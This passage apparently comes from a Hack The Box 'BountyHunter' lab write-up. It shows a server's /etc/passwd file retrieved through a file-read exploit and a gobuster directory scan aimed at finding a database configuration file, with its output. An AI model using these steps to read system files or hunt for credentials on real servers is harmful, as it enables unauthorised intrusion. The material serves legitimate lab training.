 And it worked, we were able to pull out `passwd` file from the server.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash   <--- possible user on the machine
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Now it's time to infiltrate into the system, as we know that the input data's are being stored in database, there has to be a database `configuration` file.

Let's use `Gobuster` to search for possible configuration file.

```bash
┌─[eu-free-3]─[10.10.14.208]─[vincida@vincida]─[~/Desktop/HTB/LAB/bountyhunter]
└──╼ [★]$ gobuster dir -u http://10.10.11.100 -w /usr/share/wordlists/dirb/common.txt -x PHP
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              PHP
[+] Timeout:                 10s
===============================================================
2021/11/20 03:52:48 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.hta.PHP             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
```
